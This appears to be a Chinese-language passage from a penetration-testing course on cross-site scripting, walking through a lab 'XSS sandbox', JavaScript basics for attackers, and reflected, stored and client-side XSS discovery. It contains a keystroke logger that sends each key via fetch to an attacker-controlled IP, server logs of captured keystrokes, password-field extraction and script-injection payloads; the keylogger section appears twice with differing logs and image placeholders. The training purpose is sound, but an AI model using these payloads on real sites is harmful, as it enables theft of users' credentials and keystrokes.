该应用程序分为四个部分。左侧是我们的“黑客 (hacker)”端，我们可以在其中浏览各个页面并利用漏洞，这些漏洞会在我们的浏览器中执行。右侧是“用户 (user)”端。在此侧，我们可以配置用户执行各种类型的操作，当点击 Render（渲染）按钮时，让用户访问我们正在访问的同一个页面。

让我们进一步拆分每一侧。首先，让我们调查左上角的导航栏。



导航窗格包含指向各种漏洞应用程序的链接：

- **Info ** - 此页面提供有关 XSS 沙盒的信息。它没有漏洞，也不会成为目标。但是，如果我们需要温习沙盒的工作原理，可以回过头来参考它。
- **Eval ** - 一个 JavaScript 控制台，受害者加载时会自动运行。
- **Search  - 一个容易受到反射型 XSS (reflected XSS) 攻击的搜索应用程序。
- **Blog ** - 一个在多个位置容易受到存储型 XSS (stored XSS) 攻击的博客网站，其中一些位置设置了过滤。
- **Survey ** - 发送给用户的调查，容易受到 DOM XSS 攻击。
- **Donate ** - 发送给用户的捐赠链接，用于向某项事业捐款。
- **RSVP** - 一个允许用户对活动进行回复 (RSVP) 并向主机提供消息的应用程序。
- **List** - 一个将格式化数据以与其他用户共享的应用程序。
- **ToDo** - 一个待办事项列表应用程序。

稍后我们将在示例中使用这些不同的应用程序，其中一些将作为练习留下。这些页面显示在页面的左下角。我们称之为我们的黑客浏览器 (Hacker Browser)。目前，我们在“Info”页面上。



该部分在模拟浏览器中显示页面。页面的这一侧正在使用我们当前的浏览器渲染内容。这意味着如果我们要漏洞利用其中一个漏洞应用程序上的 XSS 漏洞，我们实际上是在漏洞利用自己的浏览器。准备好漏洞利用后，我们可以使用右上角的控制面板来渲染页面。



当页面未渲染时，控制面板让我们配置模拟浏览器及其操作。这些配置包括：

- **Use HttpOnly Cookie** - 在页面加载之前在浏览器中设置 HttpOnly cookie。
- **Use Non-HttpOnly Cookie ** - 在页面加载之前设置没有 HttpOnly 标志的 cookie。
- **Blindly enter credentials ** - 模拟用户遭到网络钓鱼。目标用户会在任何文本字段中输入用户名，在任何密码字段中输入密码。
- **Used stored password ** - 模拟用户的浏览器，在页面加载后，凭据会自动填写在登录框中。
- **Simulate keystrokes ** - 指示目标在页面加载后在页面上的任意位置进行输入。
- **Data in Local Storage ** - 在页面加载之前，将机密和敏感数据加载到本地存储 (local storage) 中。

点击 Render（渲染）按钮将使模拟用户浏览器加载当前在我们的黑客浏览器中加载的页面。渲染完成后，用户浏览器的截图将被发送回给我们。我们可以通过取消选中 Refresh Screenshot（刷新截图）复选框来禁用这些截图。渲染后的页面将显示在右下角。

目标浏览器中的导航按钮被故意设置为不受我们控制，因为我们正在模拟一个远程用户。

如果我们通过单击控制面板中的“清除 (Clear)”按钮来清除渲染，我们可以返回更改设置。让我们勾选“使用存储的密码 (Used stored password)”复选框，以模拟在密码管理器中存储了密码的用户。勾选后，我们可以再次点击“渲染 (Render)”，并发现用户的浏览器填写了凭证。



由于此网站不易受到 XSS 攻击，我们无法知道密码的值是什么。然而，正如我们将在其他应用程序中发现的那样，我们有办法外发泄露 (exfiltrating) 密码。

正如我们将在各种类型的 XSS 漏洞中发现的那样，某些漏洞利用可能会污染数据库并使应用程序无法使用。在这些情况下，有一个 `/reset` 端点 (endpoint) 可以重置数据库。如果应用程序没有数据库（比如 Info 页面），则没有重置端点。

为了注入 JavaScript，我们必须首先了解 JavaScript 是什么，它能做什么，以及一些在漏洞利用 XSS 时对我们有帮助的基础知识。

## 3.2 面向渗透攻击的 JavaScript 基础

1. 了解 JavaScript 的基础知识
2. 阅读和理解基础的 JavaScript 代码
3. 使用 JavaScript API 外发泄露数据

JavaScript 是一种高级编程语言，已成为现代 Web 应用程序的基础组件之一。所有现代浏览器都包含一个 JavaScript 引擎，用于运行任何客户端 (client-side) JavaScript 代码。本学习单元介绍了 JavaScript 的一些对安全专业人员有用的功能和语法。

当浏览器处理包含 HTML 的 HTTP 响应时，浏览器会创建一个文档对象模型 (Document Object Model, DOM) 树并渲染它。DOM 包含页面上的所有表单 (forms)、输入 (inputs)、图像等。JavaScript 可以访问和修改页面的 DOM，从而为最终用户带来更具交互性的体验。从漏洞利用的角度来看，这也意味着如果我们可以注入 JavaScript，我们就可以访问和修改页面的 DOM。有了对 DOM 的访问权限，我们可以重定向登录表单、提取密码、对用户进行网络钓鱼等等。

让我们回顾一个处理某些数据并将其记录到控制台的 JavaScript 函数 (function)[42]。

```javascript
01  function processData(data) {
02    data.items.forEach(item => {
03      console.log(item)
04    });
05  }
06
07  let foo = {
08    items: [
09      "Hello",
10      "Zdravo",
11      "Hola"
12    ]
13  }
14
15  processData(foo)

```

**代码清单 2 - 函数示例**

在代码清单 2 中，我们在第 1-5 行找到了一个名为 `processData` 的函数 (function) 声明。在第 7-13 行，我们找到了将对象 (object) 声明并保存到 `foo` 变量中的代码。在第 15 行，我们找到了使用 `foo` 变量作为参数 (argument) 调用 `processData` 函数的代码。

一个函数是一系列语句 (statements) 的集合。通常，一个函数可能接受一些参数，完成指定的任务，然后（如果需要）返回处理后的数据。

一个变量 (variable) 存储一个值。这可以是一个字符串（"hello, world"）、一个数组（`[1,2,3]`）、一个对象（如第 7-13 行所示）或许多其他属性类型。一个对象包含键值对 (key-value pairs)，称为属性 (properties)。在代码清单 2 中，`foo` 对象包含一个键 (`items`)，它被设置为一个字符串数组。

函数也可以是对象中的属性。在这些情况下，该函数被称为方法 (method)。在本学习模块中，我们将使用术语“方法”来使用准确的术语。但是，我们可以将方法视为函数。

既然我们了解了声明的项，让我们回顾一下 `processData` 函数的内容以了解它是如何工作的。在第 2 行，开始一个循环 (loop)，遍历 `data.items` 数组中的每一项。在第 3 行，每一行将被记录 (logged) 到控制台 (console)。

为了了解控制台是什么，我们需要了解如何执行 JavaScript。这在我们尝试测试 payload 时将非常有帮助。由于 JavaScript 最初设计为在客户端 (client) 的浏览器中运行，因此最好的调试 (debugging) 工具实际上就是浏览器。

我们可以在任何页面上打开开发者工具 (developer tools)；但是，某些页面可能加载了库 (libraries)，这会改变应用程序的默认行为。因此，我们将在 Firefox 中使用 `about:blank` 页面来加载一个空白页。导航到空白页后，我们将点击右上角的“汉堡包 (hamburger)”图标，点击 Web Developer（Web 开发者），最后点击 Web Console（Web 控制台）。



控制台工具将在我们浏览器窗口的下部打开。我们也可以在 Kali 上使用快捷键 `Ctrl+Shift+K` (C+B+k) 来打开控制台工具。

让我们尝试在控制台中运行代码清单 2 中的代码。在我们可以将任何内容粘贴到 Firefox Web 控制台之前，我们必须首先键入 "allow pasting"（允许粘贴），否则将显示一条错误消息，提醒我们这样做。这种安全机制可以防止用户运行不受信任的代码并被网络钓鱼 (phished)。记住，如果我们能让受害者的浏览器执行 JavaScript，我们就可以访问该页面上的几乎所有内容。



如果我们遇到任何错误，可以通过刷新页面来“重置 (reset)”执行的所有内容。

当我们粘贴代码并按下 `Enter` 键时，代码将被执行，控制台会记录三个字符串输出。在我们从未定义过 "console.log" 应该做什么的情况下，浏览器是如何知道要记录输出的呢？

我们的代码之所以能够执行，是因为 `console.log` 是浏览器提供的 `console` API[43] 中内置的方法。如果我们在漏洞利用时可以注入 JavaScript，那么我们就可以访问许多有用的 Web API。另外两个常见的 Web API 是 `Window`[44] 和 `Document`[45] API。

Window API 代表文档 (document) 所在的窗口。在许多其他属性中，它允许我们通过 `location` 属性[46] 访问 URL，以及访问可能包含机密的 `localStorage`（本地存储）[47]。

除了属性之外，Window API 还为我们提供了对 `alert()` 方法的访问权限。该方法常用于演示应用程序容易受到 XSS 攻击。我们可以通过 `window.alert()` 或简写为 `alert()` 来访问它。

> Window API 中的任何属性都可以被视为全局 (global) 变量。这意味着与其键入 "window.alert"，不如直接使用 "alert" 作为快捷方式。

让我们尝试在控制台中运行 `alert` 方法。我们将传入一个字符串作为将要显示的内容。



虽然 `alert` 可能是用于证明 XSS 漏洞最常用的方法，但实际上用于漏洞利用 XSS 漏洞的最有效的 API 是 Document API。Document API 允许我们与 DOM 进行交互，DOM 包含了加载到用户浏览器中的页面的所有部分，包括所有文本和密码输入框、cookie 甚至击键 (keypress) 事件。

为了与 Document API 交互，我们需要一个包含更多内容的页面。我们将使用 `http://xss-sandbox/info` 网站来进行此操作。

我们将首先导航到该页面并打开 web 控制台。



让我们提取用户名和密码输入框中的值。我们首先必须查询 (query) 这些输入框。为此，我们将使用 Document API 的文档[45-1]来查找允许我们查询 HTML 标签 (tags) 的函数。

在文档中，我们找到了 `getElementsByTagName()` 方法，给定一个 HTML 标签名称，它将返回匹配该标签的所有元素 (elements) 的数组。在 HTML 中，文本框是使用 `input` 标签创建的。这将是我们传入该方法的参数。

我们将把返回的数组保存到一个名为 `inputs` 的变量中。为了实现这一点，我们将在控制台中运行 `let inputs = document.getElementsByTagName("input")`。



接下来，我们将循环遍历 `inputs` 变量中的元素并提取它们的值。我们将使用 `console.log(input.value)` 将它们的值记录到控制台中。



`for 循环` (for loop) 为 `inputs` 数组中的每一项设置一个变量 `input`，并记录每个输入框的值。然而，由于输入框为空，我们得到的响应是 ""（空字符串）。让我们刷新页面，在输入框中输入一个值，再次将我们的 JavaScript 代码输入到控制台中，并查看输出结果。



这一次，输入框的值被提取出来了。即使密码被遮挡（显示为星号或圆点），JavaScript 依然可以访问其文本值。虽然这里我们是在捕获自己的凭证，但如果我们能在另一个用户的浏览器中执行 JavaScript，这将非常有用。

另一个有用的 API 是能够为每次击键 (keypress) 添加事件监听器 (event listener)。这可用于窥探受害者的消息和凭证。添加事件监听器是通过 `document.addEventListener()` 方法完成的。它接受一个事件代码[48]（对于击键是 "keydown"）以及一个关于如何处理该事件的函数。让我们首先创建一个将击键记录到控制台的函数。



在图 14 中，我们定义了一个名为 `logKey` 的函数，它接受由事件监听器发送的事件。最后，该函数将作为事件一部分被按下的键记录到控制台中。

函数完成后，剩下的就是添加事件监听器并将我们的函数传递给它。我们不会在此处添加括号（即不写成 `logKey()`），因为括号会直接执行该函数并传入其返回值，而在本例中该函数没有返回值。相反，我们传递的是保存着该函数的 `logKey` 变量本身。每次按下键时，事件监听器都会执行该函数。



现在，当我们在文档上的任何位置（而不是在控制台中）键入内容时，我们可以在控制台中找到被记录的按键。



然而，捕获我们自己的击键并没有太大用处，因此我们要尝试捕获其他用户的击键。为此，我们在 XSS 沙盒中创建了 `eval` 应用程序。当我们进行渲染 (render) 时，在此处输入的任何 JavaScript 都将被受害者执行。让我们拿上我们的键盘记录器 (keylogger) 并将其发送给用户。

我们将首先访问 eval 应用程序上的 XSS 沙盒，其地址为 `http://xss-sandbox/challenge/eval`。接下来，我们将在黑客浏览器 (hacker browser) 内的代码块中键入我们的 payload（有效载荷）。



我们只勾选*“模拟按键”*选项，然后单击*“渲染”*。



受害者渲染了页面，但没有任何反应。这是因为我们只将按键记录到控制台，而无法访问受害者的浏览器控制台。我们需要找到一种方法来获取他们的按键信息。这时，Fetch API 就派上用场了。

Fetch [[49\]](#fn-49-75cda2e6654bb95e) API 允许用户的浏览器 向远程资源发出网络请求。这可以用来获取 文档、用户信息、图像等等。Fetch API 调用 是非阻塞的，这意味着在 发出请求和返回响应期间，用户界面不会被阻塞。这也意味着*Fetch* 不会立即返回数据，而是返回 一个*Promise* [[50\]](#fn-50-75cda2e6654bb95e)来完成执行。如果我们需要 访问响应，可以使用*then*方法并传入一个函数， 以便在响应可用时执行该函数。

然而，我们并非总是需要响应。例如，我们可以利用响应将用户浏览器中的数据窃取到我们的 Kali机器上。只要请求发送到我们的服务器，我们就无需在用户浏览器中处理响应。
让我们在 Kali 上启动一个 Python HTTP 监听器，通过运行 `python3` 并传入 `http.server` 模块（使用 `-m` 标志）以及端口号 80 来记录终端请求。

```bash
kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

**代码清单 3 - 启动 HTTP 监听器**

现在，我们将回到空白标签页中的控制台窗口，并使用 `fetch` 对我们的 Kali IP 进行 HTTP 调用。



我们收到一个错误，指出“同源策略 (Same Origin Policy) 不允许读取远程资源”。然而，如果我们检查 Python 服务器日志，我们会发现我们收到了一次请求！

```bash
kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.16.174.4 - - [11/Aug/2021 19:15:53] "GET /hello HTTP/1.1" 404 -

```

**代码清单 4 - HTTP 服务器日志**

日志包含我们查询的 URL。让我们回到我们的键盘记录 payload，并检查我们可以进行哪些更改来窃取击键。

```javascript
function logKey(event){
	console.log(event.key)
}
document.addEventListener('keydown', logKey);

```

我们遇到的问题是，*`console.log`*无法导出数据。让我们把这行代码替换成*`fetch`*，然后使用
Eval 应用程序让受害者执行我们的代码。

我们会将 `console.log` 这一行更改为运行 `fetch("http://192.168.49.51/k?key=" + event.key);`。这将向我们的 Kali 机器发出一个 HTTP 请求，并包含按下的键。让我们将其输入到 Eval 应用程序中，并在 XSS 沙盒中勾选“模拟击键”选项的情况下进行渲染。



从用户的角度来看，什么也没有发生。然而，如果我们检查日志，我们会发现用户正在键入的消息。

```bash
...
192.168.121.101 - - [11/Aug/2021 19:23:39] "GET /k?key=I HTTP/1.1" 404 -
192.168.121.101 - - [11/Aug/2021 19:23:39] code 404, message File not found
192.168.121.101 - - [11/Aug/2021 19:23:39] "GET /k?key= HTTP/1.1" 404 -
192.168.121.101 - - [11/Aug/2021 19:23:39] code 404, message File not found
192.168.121.101 - - [11/Aug/2021 19:23:39] "GET /k?key=l HTTP/1.1" 404 -
192.168.121.101 - - [11/Aug/2021 19:23:40] code 404, message File not found
192.168.121.101 - - [11/Aug/2021 19:23:40] "GET /k?key=i HTTP/1.1" 404 -
192.168.121.101 - - [11/Aug/2021 19:23:40] code 404, message File not found
192.168.121.101 - - [11/Aug/2021 19:23:40] "GET /k?key=k HTTP/1.1" 404 -
192.168.121.101 - - [11/Aug/2021 19:23:40] code 404, message File not found
192.168.121.101 - - [11/Aug/2021 19:23:40] "GET /k?key=e HTTP/1.1" 404 -
...

```

受害者渲染了页面，但什么也没发生。这是因为我们只将击键记录到了控制台，而我们无法访问受害者的浏览器控制台。我们需要找到一种外发泄露 (exfiltrate) 其击键的方法。这就是 Fetch API 派上用场的地方。

Fetch[49] API 允许我们让用户的浏览器向远程资源发出网络请求 (network requests)。这可以用于获取文档、用户信息、图像等等。Fetch API 调用是非阻塞的 (non-blocking)，这意味着在发出请求和返回响应时，UI（用户界面）不会被锁定。这也意味着 Fetch 不会立即返回数据，相反，它返回一个完成执行的 Promise (承诺)[50]。如果我们需要访问响应，我们使用 `then` 方法，并传入一个在响应可用时执行的函数。

然而，我们并不总是需要响应。例如，我们可以将其用作一种将数据从用户的浏览器外发泄露到我们的 Kali 机器的方法。只要请求发送到了我们的服务器，我们就不需要在用户的浏览器中处理响应。让我们在 Kali 上启动一个 Python HTTP 监听器，通过运行 `python3`，使用 `-m` 标志传递 `http.server` 模块以及端口号 `80`，将请求记录到终端。

Bash

```
kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

**代码清单 3 - 启动 HTTP 监听器**

现在，我们将回到空白标签页中的控制台窗口，并使用 `fetch` 对我们的 Kali IP 进行 HTTP 调用。

[图片占位]

我们收到一个错误，指出“同源策略 (Same Origin Policy) 不允许读取远程资源”。然而，如果我们检查 Python 服务器日志，我们会发现我们收到了一次请求！

Bash

```
192.168.49.51 - - [28/Apr/2026 01:35:03] "GET / HTTP/1.1" 200 -
```

**代码清单 4 - HTTP 服务器日志**

日志包含我们查询的 URL。让我们回到我们的键盘记录 payload，并检查我们可以进行哪些更改来外发泄露击键。

JavaScript

```
document.addEventListener('keydown', function(event) {
  console.log(event.key);
});
```

**代码清单 5 - 原始键盘记录 Payload**

这个 payload 我们遇到的问题是 `console.log` 不会外发泄露数据。让我们用 `fetch` 替换这一行，并使用 Eval 应用程序让受害者执行我们的代码。

我们会将 `console.log` 这一行更改为运行 `fetch("http://192.168.49.51/k?key=" + event.key);`。这将向我们的 Kali 机器发出一个 HTTP 请求，并包含按下的键。让我们将其输入到 Eval 应用程序中，并在 XSS 沙盒中勾选“模拟击键 (Simulate keystrokes)”选项的情况下进行渲染。

[图片占位]

从用户的角度来看，什么也没有发生。然而，如果我们检查日志，我们会发现用户正在键入的消息。

Bash

```
192.168.49.51 - - [28/Apr/2026 01:35:03] "GET /k?key=h HTTP/1.1" 404 -
192.168.49.51 - - [28/Apr/2026 01:35:03] "GET /k?key=e HTTP/1.1" 404 -
192.168.49.51 - - [28/Apr/2026 01:35:03] "GET /k?key=l HTTP/1.1" 404 -
192.168.49.51 - - [28/Apr/2026 01:35:03] "GET /k?key=l HTTP/1.1" 404 -
192.168.49.51 - - [28/Apr/2026 01:35:03] "GET /k?key=o HTTP/1.1" 404 -
```

**代码清单 6 - HTTP 服务器日志消息**

太棒了！我们找到了一条用户正在页面上键入的消息！

在本节中，我们回顾了几个在向易受攻击的应用程序中注入 JavaScript 时可能有所帮助的 API。我们在这里讨论的所有内容都可以在随时可用的文档中找到。例如，在 MDN Web Docs[51] 中可以找到一个几乎完全相同的键盘记录控制台应用程序。我们不必成为 JavaScript 专家，但了解基础知识将是必要的。使用诸如 MDN 之类的在线资源，我们可以找到其他人编写的示例，以在 JavaScript 中完成几乎任何事情。

## 3.3 跨站脚本 — 漏洞发现

本学习单元涵盖以下学习目标：

- 了解不同类型的 XSS
- 漏洞利用反射型服务端 XSS (reflected server XSS)
- 漏洞利用存储型服务端 XSS (stored server XSS)
- 漏洞利用反射型客户端 XSS (reflected client XSS)
- 漏洞利用存储型客户端 XSS (stored client XSS)

虽然“跨站脚本 (Cross-Site Scripting)”是正式名称，但将其视为 JavaScript 注入更容易理解。作为攻击者，我们注入的代码将在受害者的浏览器中执行。需要注意的是，XSS 漏洞不能直接导致服务器的远程代码执行 (remote code execution)。相反，XSS 攻击的目标是应用程序的用户。这些漏洞利用了用户对其正在访问的应用程序的信任。

与许多其他漏洞不同，跨站脚本漏洞的被漏洞利用并不是因为应用程序接受了不受信任的用户输入。相反，应用程序之所以脆弱，是因为它**输出**了不受信任的输入。虽然用于漏洞利用的 payload 必须来自不受信任的源，但在该 payload 被发回给用户之前，它并不构成 XSS 漏洞利用。

即使应用程序没有完成任何输入净化 (input sanitization)，只要在输出时对 payload 进行了适当的净化，就不会留下导致 XSS 的途径。相反，如果应用程序进行了完美的 XSS 输入净化，但在输出时没有进行任何编码 (encoding)，如果攻击者可以通过其他方式（诚然，这非常罕见）注入内容，应用程序可能仍然容易受到 XSS 攻击。

跨站脚本可分为两种主要类型：**反射型 (reflected)** 和 **存储型 (stored)**。两者的主要区别在于，存储型是持久的 (persistent)，而反射型则不是。反射型 XSS payload 仅通过精心设计的链接或来自其他站点的定向重定向来触发漏洞利用。相反，顾名思义，存储型 XSS 会将 payload 保存在数据库中。这意味着多个受害者可能会在浏览该网站的过程中成为存储型 XSS 攻击的牺牲品，这使得存储型 XSS 危险得多。存储型和反射型的分类是指 payload 的持久化程度。

此外，存储型和反射型 XSS 还可以进一步细分为**服务端 XSS (server XSS)** 或 **客户端 XSS (client XSS)**。这是指 payload 在应用程序架构中被输出的位置。对于服务端 XSS，应用程序服务器会将不受信任的用户输入追加到 HTML 文档中，而不进行任何输出编码。对于客户端 XSS，非恶意的客户端 JavaScript 会将不受信任的用户输入追加到 DOM 中，而不进行任何进一步的编码。这一点很重要，因为客户端 XSS 更难被发现。虽然可以通过发送请求并检查响应来发现服务端 XSS，但必须通过使用浏览器或审计前端 JavaScript 代码才能发现客户端 XSS。

> 历史上，XSS 被分为三类：存储型、反射型和基于 DOM 的 (DOM-based)。术语“基于 DOM 的”即是我们现在所说的“客户端 XSS”。这三个类别描绘了一幅不准确的 XSS 全景图。使用这三个类别，学生自然会假设 XSS 漏洞要么是存储型的，要么是反射型的，要么是基于 DOM 的。事实并非如此。漏洞可能是存储型服务端 XSS、存储型客户端 XSS、反射型服务端 XSS 或反射型客户端 XSS。XSS 的术语多年来一直被忽视，这在业界造成了很大的混乱。

无论 XSS 漏洞利用的位置或可能性如何，所有 XSS 漏洞都需要某种形式的**用户交互 (user interaction)**。此外，受害者必须具有与我们作为攻击者不同的访问权限。我们无法针对具有等同于公共用户访问权限的用户进行漏洞利用。目标用户可以是：使用标准会话 cookie 进行身份验证的用户、因其访问的 IP 地址而通过身份验证的用户，或者使用应用程序将其敏感数据保存在其本地存储中的用户。

在本学习单元中，我们将回顾反射型服务端 XSS、存储型服务端 XSS、反射型客户端 XSS 和存储型客户端 XSS。使用 XSS Sandbox 应用程序，我们将演示各种漏洞利用，重点关注发现 XSS 漏洞并从各种入口点逃逸 (escaping out)。在这里，我们不会重点讨论绕过身份验证、击键记录或任何其他具体的漏洞利用方法。

反射型服务端 XSS 通常存在于通过 GET 参数发送用户输入的位置。要对其进行漏洞利用，我们通常会向用户发送一个包含 payload 的链接。由于用户信任该域名，他们会点击链接，服务器会追加我们的 payload，然后用户的浏览器将执行该 payload。与电子邮件网络钓鱼活动不同，我们不必担心如何让域名“看”起来很逼真，因为用户应该已经信任被发送的域名了。

> POST 参数也有可能导致反射型 XSS。然而，我们无法通过链接向用户进行网络钓鱼。相反，我们必须将用户钓鱼到一个我们控制的站点，并在用户访问时让表单自动提交 (auto-post)。不过，所有这些条件同时满足的可能性比站点存在 GET 参数漏洞的可能性要小得多。出于这个原因，我们将重点关注通过 GET 参数产生的反射型 XSS 漏洞。

在本节的大部分内容中，我们将使用 Firefox 来发现漏洞并构建 payload。我们将使用 XSS 沙盒中的 Search 应用程序。



首页只有一个输入框，我们可以在其中搜索关键词。我们来搜索“offsec”。

这个搜索引擎不太好用。除了将搜索词添加到*`s`*参数之外，我们还注意到它被添加到了搜索页面的 HTML 代码中。让我们在 DOM 中检查一下，看看它是如何添加到文档中的。我们选中搜索词，右键单击，然后单击*“检查元素”*。



我们发现关键字被注入到了一个*div*元素中。如果*s*参数存在 XSS 漏洞，我们就无需转义 任何现有的 HTML 标签。进行 XSS 测试的一个好方法是 首先尝试 HTML 注入。我们可以注入基本的 HTML 标签，而不是注入 要执行的 JavaScript 代码，并检查它们是否被 渲染。HTML 注入出错的可能性较小，因此是 测试的绝佳对照。能够注入 HTML 并不总是意味着 我们可以注入 JavaScript，但这是一个很好的指标。让我们尝试 搜索 `<h1>offsec</h1>`，并检查响应以 确定 HTML 是否被渲染。



当我们搜索包含 HTML 代码的词条时，HTML 代码被直接渲染而不是转义！这很可能意味着我们也可以注入JavaScript 代码。让我们来试试。我们将使用标准的*`alert()`*函数来验证概念验证是否有效。我们将提交的有效载荷是：`<script>alert(0)</script>`，它应该会在渲染后显示一个警告框。



我们已成功将 JavaScript 代码注入到自己的浏览器中！现在点击“*确定”*关闭提示框。如果我们检查 URL，就能找到我们代码的编码版本。

```txt
search.php?s=%3Cscript%3Ealert%280%29%3C%2Fscript%3E
```

接下来，我们点击XSS 沙箱中的*“渲染”按钮*，让受害者也渲染该页面。清单 7 中的 URL与受害者将要访问的 URL 相同。通常情况下，该 URL 会通过电子邮件、聊天消息或另一个网站上的链接发送。



当目标用户加载页面时，我们发现弹出了一个警告框。这意味着我们已成功向目标网站注入了 XSS 攻击载荷。

现在，让我们在 Burp Suite 中利用这个漏洞来确认服务器是否在请求中附加了有效载荷。如果我们向服务器发送请求，并且响应中包含了我们的有效载荷，那么我们就知道这是一个反射型服务器 XSS 攻击。首先，启动 Burp Suite 并访问“代理”选项卡。

打开 Burp Suite 后，我们点击*“拦截已开启*”按钮禁用拦截功能。禁用后，按钮会显示“拦截已关闭”。接下来，点击“*打开浏览器*”按钮打开嵌入式 Chromium 浏览器。浏览器打开后，我们导航到XSS 沙箱中的同一个搜索页面。



当我们在搜索页面时，我们会再次在搜索栏中提交有效载荷，以便在代理历史记录中捕获该请求。当我们
再次提交有效载荷时，我们应该会“利用”漏洞并收到弹出对话框。

这次，我们打开代理历史记录，找到我们刚刚发送的请求及其响应。

如果我们点击*“响应”*选项卡，确实可以发现我们的有效载荷已直接反映在内容中。

通过这个发现，我们可以确认：是**服务器**直接将我们的 payload 写入了网页文档中。**客户端**仅仅负责执行这段 payload，并没有参与插入或拼接它的过程。

与反射型 XSS 不同，存储型 XSS 不需要我们发送经过特制的链接。相反，任何访问该易受攻击页面并渲染了存储的 XSS 的用户，都将执行该 payload。正因为如此，我们不必担心将我们的 payload 局限于 GET 请求。对于此示例，我们将使用在 XSS 沙盒上找到的 Blog（博客）应用程序。在本节的大部分内容中，我们将使用 Firefox 来发现漏洞并构建 payload。

在页面底部，我们发现该应用程序允许我们发表评论。让我们发表一条评论，看看应用程序的响应情况。

我们将通过右键单击用户名并单击*“检查元素”*来检查 HTML 。



我们发现用户名和评论都已添加。让我们尝试在评论中插入一个 H1 标签并查看输出结果。如果 HTML
渲染成功，我们就可以继续尝试插入 JavaScript。我们将用户名设置为“OffSec”，但将评论设置为

`<h1>Hello</h1>`



结果，HTML 标签没有渲染，而是显示了一个未渲染的“hello”字样。我们来检查一下这个元素，看看发生了什么。选中注释，右键单击，然后点击“检查元素”。



奇怪。我们似乎显示的是 HTML 标签。为什么没有渲染出来？要找到答案，让我们右键单击该元素，然后单击*“编辑为HTML”*。



现在当我们查看输出结果时，就能发现问题所在。



服务器似乎对 HTML 字符进行了编码。服务器将“<”替换成了“`&lt;`”，以确保浏览器不会将
用户输入视为 HTML。不幸的是，这很可能意味着该参数不存在漏洞。不过，我们先别放弃。
我们来试试用户名参数。首先，我们将在黑客浏览器中访问 /reset 来清理数据库。这并非强制步骤，但
可以确保我们拥有一个干净的工作环境。

我们将对用户名使用相同的有效载荷。



当评论提交后，我们应该会发现我们注入的 H1 HTML 标签被渲染出来了！



既然我们知道可以注入 HTML，接下来尝试注入JavaScript。我们将使用*`alert()`*函数作为要
执行的 JavaScript 代码，因为它能清晰地指示 XSS 攻击是否已执行。同样，我们会重置数据库。重置后，我们将使用`<script>alert(0)</script>` 作为有效载荷。

然而，由于HTML 会被渲染成用户名， 管理员很容易就能看出哪个评论包含漏洞利用代码。因此，我们将 尝试更隐蔽一些，在有效载荷前添加名字“John” 。这样，当所有内容 渲染完毕 后，用户名字段就不会为空了。



提交攻击载荷时，我们会先在浏览器中直接执行注入的 XSS 代码，因此会显示一个包含“0”的警告框。关闭警告框后，我们可以通过 点击控制面板中的*“渲染”按钮*，在目标用户的浏览器中渲染攻击载荷。



有趣的是，我们发现不需要特制的链接就能利用该漏洞。任何访问此页面的用户都会收到一个警告框。

### 客户端xss

虽然客户端 XSS 的危害与服务端 XSS 几乎一样，但在漏洞挖掘和 Payload 构造上却大不相同。 因为恶意代码是由浏览器（前端 JavaScript）动态拼接进页面的，而不是由服务器直接生成的。这就意味着，我们不能像找服务端 XSS 那样，光靠抓包看 HTTP 请求和响应源码就下结论。我们必须在真实的浏览器环境中把页面完整渲染出来，才能观察到 Payload 是否被成功触发。

由于 payload 是由客户端添加到内容中的，我们也可以通过审查客户端 JavaScript 代码来发现客户端 XSS 漏洞。我们将快速查看代码以确认漏洞，但深入的源代码审查超出了本节的范围。

本次攻击的目标目标将是 XSS 沙盒中的 "Survey"应用程序。同样，我们将使用 Firefox 来发现并攻击该应用程序。当我们访问该页面时，我们应该会立即注意到，用户的名称在 `name` 查询参数 (query parameter) 中被提供。这个名称也反映在页面的“欢迎”消息中。这应该会触发我们的黑客直觉。



我们用 H1 标签包裹名称，看看是否可以注入 HTML。我们可以输入 `<h1>Jason</h1>`，浏览器会在发送请求之前自动对参数进行编码。



HTML 代码已渲染完成，名称现在以粗体显示。让我们使用Firefox 的网络工具来查看原始响应，以确认
这确实是一个客户端 XSS 攻击。为此，我们将打开网络实用程序，方法是点击右上角的汉堡菜单图标，然后点击“ *Web 开发者”* > *“网络”*。



一个新的工具会在我们的 Firefox 窗口底部打开。如果我们点击黑客浏览器上的“重新加载”图标，就可以强制 Firefox再次向目标服务器发送请求。我们可以在网络工具中找到该请求。



如果我们点击该请求，将会打开另一个包含多个标签页的窗口。其中一个标签页是“响应”，其中包含
服务器发送的原始响应。但是，如果我们点击*“响应”*标签页，Firefox 会尝试渲染不包含任何 JavaScript 的 HTML 预览。点击*“预览”*即可关闭此窗口。



关闭预览窗格后，我们就剩下了“响应 Payload (Response Payload)”窗格。从这里，我们可以发现最初的欢迎消息只是简单地说 "Welcome, User!"。但这并不是在我们这端被渲染出来的内容。我们的 payload 到底是在哪里被渲染的呢？

在图 48 中，我们发现该页面加载了额外的资源。CSS 页面可能没有任何改变欢迎消息的逻辑。`jquery.min.js` 文件包含一个外部库。最后，`survey.js` 似乎是此应用程序定制的。我们可能会在这个文件中找到线索，因此我们将点击它进行审查。



这个 JavaScript 文件首先执行的操作之一是将“welcome”DOM 元素的*innerHTML设置为*
*name*查询参数中设置的值。我们正是在这里注入我们的 HTML 代码。

接下来，我们尝试注入一个 XSS 有效载荷。我们将从
标准的 alert 有效载荷开始：`<script>alert(0)</script>`。



页面加载成功，但有效载荷并未执行。欢迎消息中的名称也为空。让我们来调查一下可能的原因。我们选中欢迎文本，右键单击，然后单击*“检查元素”*。



打开检查器工具后，我们需要展开*p*标签以显示消息的内容。



从这个角度来看，我们的注入似乎已正确添加。在线搜索“innerHTML execute script tag”
会找到 MDN 上关于*innerHTML 的文档*[[52\]](#fn-52-75cda2e6654bb95e)，其中指出：
	*HTML5 规定，插入到 innerHTML 中的 <\script> 标签不应执行。*

如果我们继续阅读，Mozilla 会很贴心地为我们提供一个解决方法：
	*但是，即使不使用 <\script> 元素，也有方法可以执行 JavaScript，因此，每当您使用 innerHTML 设置您无法控制的字符串时，仍然存在安全风险。*

他们提供的例子是：

```javascript
const name = "";
el.innerHTML = name; // shows the alert
```

我们来在调查应用程序中试一试。我们将这段有效负载粘贴为名称参数。



